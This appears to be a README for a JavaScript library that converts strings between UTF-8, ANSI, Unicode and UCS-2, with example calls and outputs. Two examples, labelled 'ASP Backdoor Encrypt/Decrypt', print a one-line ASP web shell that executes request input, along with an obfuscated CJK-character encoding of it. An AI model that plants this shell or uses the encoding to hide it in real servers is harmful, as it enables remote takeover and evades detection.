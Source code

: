 # About
Convert in pure javascript 
 - Utf8 to Utf8 Binary (Raw utf8 binary in memory), 
 - Utf8 to Ansi Binary (Char Binary),
 - Utf8 to Unicode Binary, 
 - Utf8 to Unicode Str (ASP Backdoor Decrypt), 
 - Utf8 to Ucs2, 
 - Ucs2 to Utf8, 
 - Unicode Str to Utf8 (ASP Backdoor Encrypt), 
 - Unicode Binary to Ansi Binary (Char Binary), 
 - Unicode Binary to Str



# Example
```javascript
Utf8StrToUtf8Binary('ex')
// [101, 120] ([0x65, 0x78])
Utf8StrToUtf8Binary('严')
// [228, 184, 165] ([0xe4, 0xb8, 0xa5])
```

```javascript
Utf8StrToCharBinary('ex')
// [101, 120] ([0x65, 0x78])
Utf8StrToCharBinary('严')
// [20005] ([0x4e25])
```

```javascript
Utf8StrToUnicodeBinary('ex')
// [101, 0, 120, 0] ([0x65, 0x00, 0x78, 0x00])
Utf8StrToUnicodeBinary('ex', BigEndian = true)
// [0, 101, 0, 120] ([0x00, 0x65, 0x00, 0x78])
Utf8StrToUnicodeBinary('严')
// [37, 78] ([0x25, 0x4e])
Utf8StrToUnicodeBinary('严', BigEndian = true)
// [78, 37] ([0x4e, 0x25])
```

```javascript
Utf8StrToUnicodeStr('硥')
// "ex"
Utf8StrToUnicodeStr('┼攠數畣整爠煥敵瑳∨≮┩>')
// "<% execute request("n")%> " (ASP Backdoor Decrypt)
```

```javascript
Utf8ToUcs2('ex严')
// "ex%u4E25"
Utf8ToUcs2('ex严', encodeAll = true)
// "%u0065%u0078%u4E25"
Utf8ToUcs2('ex严', encodeAll = true, splitChar = '\\')
// "\u0065\u0078\u4E25"
```

```javascript
Ucs2ToUtf8('ex%u4E25')
// "ex严"
Ucs2ToUtf8('%u0065%u0078%u4E25')
// "ex严"
Ucs2ToUtf8('\\u0065\\u0078\\u4E25')
// "ex严"
```

```javascript
UnicodeStrToUtf8Str('ex')
// "硥"
UnicodeStrToUtf8Str('<% execute request("n")%>')
// "┼攠數畣整爠煥敵瑳∨≮┩>" (ASP Backdoor Encrypt)
```

```javascript
UnicodeBinaryToCharBinary([101, 0, 120, 0]) // [0x65, 0x00, 0x78, 0x00]
// [101, 120] ([0x65, 0x78], "ex")
UnicodeBinaryToCharBinary([37, 78]) // [0x25, 0x4e]
// [20005] ([0x4e25], "严")
```

```javascript
UnicodeBinaryToStr([101, 0, 120, 0]) // [0x65, 0x00, 0x78, 0x00]
// "ex"
UnicodeBinaryToStr([37, 78]) // [0x25, 0x4e]
// "严"
```












